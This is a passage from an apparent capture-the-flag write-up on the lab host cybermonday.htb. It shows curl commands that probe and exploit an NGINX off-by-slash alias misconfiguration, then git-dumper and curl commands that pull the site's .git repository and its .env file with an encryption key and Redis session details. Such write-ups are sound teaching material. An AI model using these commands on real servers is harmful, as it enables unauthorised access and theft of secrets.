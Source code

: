 ![User registration page](web-auth-signup.png)
_cybermonday.htb account registration page_


### Off-By-Slash Path Traversal

We noticed that the site pulls static resources from the `/assets`{:.filepath} directory, so we observed the difference between 404 responses when requesting nonexistent paths with and without the prefix `/assets`{:.filepath} to better understand how NGINX is handling those paths.

~~~zsh
# Request nonexistent page WITHOUT "/assets" prefix
curl -I "http://cybermonday.htb/Q2tAab/_" # 404, nginx header + PHP "X-Powered-By"

# Request nonexistent page WITH "/assets" prefix
curl -I "http://cybermonday.htb/assets/_" # 404, only nginx server header
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

Nonexistent paths _without_ the `/assets`{:.filepath} prefix triggered a response with the `X-Powered-By: PHP/8.1.20` header, meaning that they were being processed by PHP. Paths _with_ the prefix did not return the header created by PHP likely because the request was directly communicating with NGINX. This is likely the work of an NGINX alias, which are often misconfigured. We ran some additional checks to look for a common misconfiguration known as [NGINX off-by-slash path traversal](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/).

~~~zsh
# Test for NGINX off-by-slash misconfigured alias
curl -I "http://cybermonday.htb/assets.." # HTTP 301 ~> Likely vulnerable
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

The target appeared to be vulnerable! We began to locate files or directories that might be included at the root of a PHP project, and ended up finding a `.git`{:.filepath} folder, which was used to recover the Git repository with [git-dumper](https://pypi.org/project/git-dumper/). We also downloaded `.env`{:.filepath}, which was listed in `.gitignore`{:.filepath} and therefore excluded from the repository.

~~~zsh
# Check for .git folder
curl -I "http://cybermonday.htb/assets../.git" # HTTP 301 ~> folder exists

# Dump Git repository
git-dumper "http://cybermonday.htb/assets../.git" ./cybermonday.git

# Download .env from project root
curl "http://cybermonday.htb/assets../.env" -so ./cybermonday.git/.env
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

Before reviewing the actual code, we took a look at `.env`{:.filepath} and found an encryption key presumably used to encrypt, decrypt, or validate sessions. We also learned that the app was using a Redis key-value store at **redis:6379** to manage sessions in keys with the `laravel_session:` prefix.
